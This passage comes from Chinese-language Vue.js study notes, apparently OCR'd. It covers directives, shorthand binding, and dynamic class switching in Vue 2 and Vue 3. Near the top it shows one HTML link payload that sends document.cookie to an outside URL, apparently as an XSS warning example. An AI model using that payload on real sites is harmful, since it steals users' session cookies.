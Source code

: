     ```html
    <a href=javascript:loaction.href="http://www.baidu.com?cookie="+document.cookie>click</a> 
    ```
    复制pdf需要注意编码问题 
3. 表达式 
4. ||

### 指令：是带有v-前缀的特殊属性 

* v-bind：class   -------动态绑定属性 
* v-if            ------动态创建/删除 
* v-show             -----动态显示/隐藏 
* v-on:click        ----绑定事件 
* v-for --------遍历 
* v-model ------双向绑定表单 
    ```html
    <input type="text" v-model="mytext"/> 
    ```
#### 缩写 

@click 

:动态属性[src/class/style]=“js变量” 
  
```javascript
:class="whichcolor" //whichcolor为变量 
:class="iscolor?'red':'yellow'" 
```
splice(index,1) 


# Style&class 

## class切换 

动态切换class--对象 

 
```javascript
<div :class="classobj"></div> 

==>
    <div class="aa bb"></div> 

classobj:{ 
    aa:true, 
    bb:true, 
    cc:false 
} 
classobj.dd=true //不能添加成功class 
 ```

### Vue2解决： 
```javascript
Vue.set(对象[classobj]，属性，true) 【bug】 
```
### Vue3解决：支持动态增加属性的拦截 
```javascript
动态切换class--数组 

classarr=['aa','bb'] 
classarr.push('cc') //添加class成功 
```
因：vue将数组的方法重写了 

